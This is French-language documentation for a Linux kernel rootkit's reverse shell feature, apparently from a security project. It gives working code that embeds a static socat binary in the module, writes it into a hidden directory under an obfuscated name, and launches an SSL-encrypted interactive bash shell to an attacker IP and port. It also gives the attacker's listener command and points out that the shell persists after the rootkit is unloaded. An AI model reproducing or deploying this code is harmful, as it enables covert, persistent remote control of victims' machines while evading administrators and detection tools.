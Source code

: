 \page reverse Reverse Shell
\tableofcontents

{#reverse-shell-doc}
Dans le cadre de notre projet, nous avons implémenté un reverse shell utilisant `socat` pour établir une connexion chiffrée SSL vers le serveur d'attaque. Le choix de `socat` est motivé par sa capacité à fournir un shell interactif complet, contrairement à des outils plus simples comme `netcat` ou même simplement `bash`.
Afin de pouvoir s'assurer de la présence de `socat` sur le système, nous avons intégré le binaire directement dans le rootkit, ce qui permet de le déposer dynamiquement lors du montage du rootkit. Cela demande d'avoir à disposition une version statique de `socat` embarquant aussi SSL, de dumper ce binaire dans le rootkit afin de pouvoir finalement l'utiliser pour établir le reverse shell.

### Chargement de socat dans le module en tant que payload

Pour charger le binaire `socat` dans le rootkit, nous utilisons un script lors de la compilation du module. Ce script extrait le binaire `socat` et le convertit en un tableau de caractères C, qui est ensuite intégré dans le code source du module.

```bash
generate_socat_h() {
  # if socat file does not exist, download it
  if [ ! -f socat ]; then
    echo "socat binary not found."
    echo "Download static socat binary from github.com/ernw/static-toolbox"
    wget https://github.com/ernw/static-toolbox/releases/download/socat-v1.7.4.4/socat-1.7.4.4-x86_64 -O socat
    if [ $? -ne 0 ]; then
      echo "Failed to download socat binary."
      exit 1
    fi
    echo "Download complete."
  fi
  echo "Hexdumping socat to socat.h"
  xxd -i socat > include/socat.h
}

# Check if socat.h exists
if [ ! -f ./include/socat.h ]; then
  echo "socat.h not found, generating it..."
  generate_socat_h
else
  echo "socat.h already exists, skipping generation."
fi
```

À la suite de cela, nous obtenons finalement un fichier `socat.h` contenant le code suivant :

```c
unsigned char socat[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00,
  // ... (le reste du binaire socat)
};
unsigned long socat_len = 123456; // Longueur du binaire socat
```

### Déchargement du binaire sur la machine cible

Le binaire `socat` est déposé sur la machine cible grâce à la fonction `drop_socat_binaire(void)` :

```c
int drop_socat_binaire(void) {
    if (is_socat_binaire_dropped()) {
        DBG_MSG("drop_socat_binaire: socat binary already dropped\n");
        return SUCCESS;
    }

    struct file *f;
    loff_t pos = 0;

    f = filp_open(SOCAT_BINARY_PATH, O_WRONLY | O_CREAT | O_TRUNC, 0700);
    if (IS_ERR(f)) {
        ERR_MSG("drop_socat_binaire: failed to open file: %ld\n", PTR_ERR(f));
        return -FAILURE;
    }

    unsigned int written = kernel_write(f, socat, socat_len, &pos);
    if (written < 0) {
        ERR_MSG("drop_socat_binaire: kernel_write failed: %u\n", written);
        filp_close(f, NULL);
        return -FAILURE;
    }
    else if (written < socat_len) {
        ERR_MSG("drop_socat_binaire: only %u bytes written, expected %u\n", written, socat_len);
        filp_close(f, NULL);
        return -FAILURE;
    }
    else {
        DBG_MSG("socat written successfully (%u bytes)\n", written);
    }

    filp_close(f, NULL);

    return SUCCESS;
}
```

Cette fonction vérifie d'abord si le binaire a déjà été déposé, puis crée et écrit le contenu du tableau `socat` (contenant le binaire) à l'emplacement défini par `SOCAT_BINARY_PATH`. Elle gère également les erreurs potentielles lors de l'écriture et s'assure que l'intégralité du binaire est bien écrite sur le disque.

> **Obfuscation et discrétion du binaire**
> Par défaut, le fichier `socat` déposé sur la machine cible est renommé avec l'extension `.sysd` afin d'ajouter une première couche d'obfuscation. De plus, il est placé dans le répertoire caché du rootkit, ce qui le rend pratiquement invisible pour un utilisateur ou un administrateur système classique. Ce choix vise à limiter les risques de détection du binaire par des outils d'analyse ou lors d'une inspection manuelle du système de fichiers.

### Exécution du reverse shell
Pour exécuter le reverse shell, nous utilisons la fonction `launch_reverse_shell(char *args)` :

```c
int launch_reverse_shell(char *args) {
  if (!is_socat_binaire_dropped()) {
    ERR_MSG("launch_reverse_shell: socat binary not dropped\n");
    return -FAILURE;
  }

  int port = REVERSE_SHELL_PORT; // Port par defaut

  // Recuperer le port
  if (args && strlen(args) > 0)
    port = simple_strtol(args, NULL, 10);

  // Construire la commande socat avec le port spécifié
  char cmd[256];
  snprintf(cmd, sizeof(cmd), "%s exec:'bash -i',pty,stderr,setsid,sigint,sane openssl-connect:%s:%d,verify=0 &",
          SOCAT_BINARY_PATH, ip, port);

  // Lancer la commande
  int ret_code = exec_str_as_command(cmd, false);

  if (ret_code < 0) {
    ERR_MSG("launch_reverse_shell: failed to start reverse shell on port %d\n", port);
    return ret_code;
  }

  DBG_MSG("launch_reverse_shell: reverse shell started on port %d\n", port);
  return SUCCESS;
}
```

Cette fonction vérifie d'abord que le binaire `socat` a bien été déposé. Elle récupère ensuite le port à utiliser (par défaut ou passé en argument), construit la commande d'exécution du reverse shell avec `socat`, puis l'exécute via `exec_str_as_command`. Les erreurs sont gérées et un message de succès est affiché si le shell est lancé correctement.

**Explication de la commande `socat` utilisée :**
```bash
socat exec:'bash -i',pty,stderr,setsid,sigint,sane openssl-connect:IP:PORT,verify=0 &
```
Cette commande `socat` établit une connexion SSL vers l'IP et le port spécifiés, tout en redirigeant l'entrée et la sortie standard vers un shell interactif `bash`. Les options utilisées sont :
| Option                        | Description                                                                                      |
|-------------------------------|--------------------------------------------------------------------------------------------------|
| `exec:bash -i`              | Exécute un shell interactif.                                                                     |
| `pty`                         | Alloue un pseudo-terminal pour le shell.                                                         |
| `stderr`                      | Redirige les erreurs vers la sortie standard.                                                    |
| `setsid`                      | Détache le processus du terminal.                                                                |
| `sigint`                      | Gère les signaux d'interruption.                                                                 |
| `sane`                        | Réinitialise les paramètres du terminal pour un comportement standard.                           |
| `openssl-connect:IP:PORT`     | Établit une connexion SSL vers l'IP et le port spécifiés.                                        |
| `verify=0`                    | Désactive la vérification du certificat SSL (utile pour les tests, mais à éviter en production). |

En somme, cette commande génère un shell sur mesure permettant ensuite d'ajouter un maximum d'interactivité et de fonctionnalités, tout en étant sécurisé par SSL.

### Reception de la connexion par l'attaquant
Pour recevoir la connexion du reverse shell, l'attaquant doit exécuter la commande suivante sur son serveur :

```bash
socat openssl-listen:9000,reuseaddr,cert="$(pwd)"/server.pem,verify=0 file:"$(tty)",raw,echo=0
```

Explications des options utilisées :
| Option                        | Description                                                                                      |
|-------------------------------|--------------------------------------------------------------------------------------------------|
| `openssl-listen:9000`         | Écoute les connexions entrantes sur le port 9000 en utilisant SSL.                               |
| `reuseaddr`                   | Permet de réutiliser l'adresse et le port, utile pour éviter les erreurs de "port déjà utilisé". |
| `cert="$(pwd)"/server.pem`    | Spécifie le certificat SSL à utiliser pour la connexion.                                         |
| `verify=0`                    | Désactive la vérification du certificat SSL (utile pour les tests, mais à éviter en production). |
| `file:"$(tty)",raw,echo=0`    | Redirige l'entrée/sortie vers le terminal actuel, en mode brut et sans écho.                      |

> **⚠️ Attention**  
> Le processus `socat` étant lancé dans un thread distinct du thread principal du module, il continue de s'exécuter même après le déchargement du rootkit. Cela présente l'avantage de maintenir un accès persistant à la machine cible, même si le rootkit doit être temporairement désactivé ou relancé. Cependant, il est important de garder à l'esprit que ce comportement peut laisser des traces (processus `socat` actif) et doit donc être pris en compte lors de l'utilisation ou de la suppression du module.

Dans le cadre de notre projet, nous avons automatisé le lancement de cette commande depuis l'interface web de l'attaquant, permettant ainsi de démarrer le reverse shell en un clic. 

> **Note**  
> Pour plus d'informations concernant le lancement côté attaquant, voir la section [Dashboard](#reverse-shell).

<img 
  src="logo_no_text.png" 
  style="
  display: block;
  margin: 100px auto;
  width: 30%;
  overflow: hidden;
  "
/>